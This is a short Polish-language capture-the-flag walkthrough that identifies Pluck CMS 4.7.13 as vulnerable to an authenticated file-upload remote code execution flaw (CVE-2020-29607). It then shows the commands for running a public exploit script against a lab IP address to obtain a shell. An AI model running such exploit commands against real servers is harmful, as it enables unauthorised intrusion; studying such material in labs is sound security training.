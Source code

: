 ![Pluck](img/Pluck.JPG)

Widzimy, że aplikacja to Pluck 4.7.13. Sprawdzamy czy ta wersja jest podatna:

```
Pluck CMS 4.7.13 - File Upload Remote Code Execution (Authenticated)
```
```
CVE: 2020-29607
```

Jak widzimy, aplikacja jest podatna. Możemy uzyskać RCE, czyli zdalnie wykonywać kod na serwerze. Pobieramy exploit, nadajemy mu uprawnienia i go uruchamiamy:
```
chmod +x 49909.py
```
```
python 49909.py 10.10.223.148 80 password /app/pluck-4.7.13
```
Uzyskujemy w ten sposób shella:
